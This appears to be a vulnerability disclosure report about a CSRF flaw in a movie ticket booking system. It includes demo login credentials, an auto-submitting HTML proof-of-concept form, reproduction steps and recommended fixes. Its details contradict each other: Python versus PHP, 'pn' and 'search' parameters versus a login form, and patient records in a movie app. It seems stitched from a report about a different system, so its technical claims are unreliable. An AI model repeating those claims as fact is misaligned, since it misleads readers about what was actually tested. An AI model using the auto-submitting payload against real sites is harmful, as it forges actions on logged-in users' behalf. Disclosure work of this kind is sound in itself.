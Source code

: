 #  CSRF Vulnerability Report in Online Movie Ticket Booking System in Python 

##  Summary

A **Cross-Site Request Forgery (CSRF)** vulnerability was identified in the `Login Page` of the Movie Booking system. This flaw allows an attacker to force an authenticated user to submit crafted POST data, resulting in unauthorized actions such as searching records without their knowledge.

---

##  Affected Endpoint

- **URL:** `[https://localhost:5000/]`
- **HTTP Method:** `POST`
- **Vulnerable Parameters:**
  - `pn`
  - `search`
- **Authentication Required:**  Yes
- **CSRF Protection:**  None observed

---

##  Steps to Reproduce

### 1. Login as an Authenticated User

- Navigate to: `https://localhost/PRMS-php/`

Username: manager

Password: Password@123
![image](https://github.com/user-attachments/assets/1b12fe54-c58a-4869-ab5b-c3ea91b1d6e4)

### 2. Use the CSRF Proof-of-Concept

Save the following HTML as `csrf_poc.html`:

```html
<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <form action="http://127.0.0.1:5000/login" method="POST">

      <input type="hidden" name="username" value="manager" />

      <input type="hidden" name="password" value="Password&#64;123" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      history.pushState('', '', '/');

      document.forms[0].submit();

    </script>

  </body>

</html>
```
![image](https://github.com/user-attachments/assets/8973199b-3b4d-49cb-abda-3f61175d9666)


### 3.  Trigger the CSRF Attack

- Open the file `csrf_poc.html` in a browser where the victim is already logged in.
- The form auto-submits and sends the forged request.
- The backend processes the request and responds with matching records.

---

##  Technical Evidence

###  HTTP Request Sent by PoC

![image](https://github.com/user-attachments/assets/aa2a84d4-4904-4033-bbe1-8832f7e3a28c)

###  Response
![image](https://github.com/user-attachments/assets/43106c0d-53ac-4746-b43d-7f7ef4938b5b)

 This confirms that the request was accepted and executed successfully without any CSRF protection or user interaction.

##  Impact

Attackers can craft a malicious web page that performs actions on behalf of logged-in users.

Could lead to:

- Unauthorized searches  
- Viewing of patient records  
- Escalated attacks if other endpoints like `edit`, `delete`, or `upload` also lack CSRF protection

This poses a risk to the **confidentiality** and **integrity** of the system.

---

##  Recommended Fixes

1. **Implement CSRF Tokens**  
   Use secure, random CSRF tokens for every authenticated form and validate them server-side.

2. **Set SameSite Cookies**  
   Use `SameSite=Strict` or `SameSite=Lax` on session cookies to prevent cross-origin submission.

3. **Validate Headers**  
   Check the `Origin` and `Referer` headers for all sensitive POST requests and reject unexpected sources.

4. **Use Frameworks with CSRF Protection**  
   Modern web frameworks like **Laravel**, **Django**, or **Spring** offer built-in CSRF protections — enable them.

---

## Author

- **Name:** VANSH Dhawan And Subhash Paudel  
- **Date of Discovery:** 28 June 2025  
- **Tools Used:** Burp Suite Professional, Firefox, HTML PoC  
- **Test Environment:** Localhost PRMS Setup (PHP-based)

   
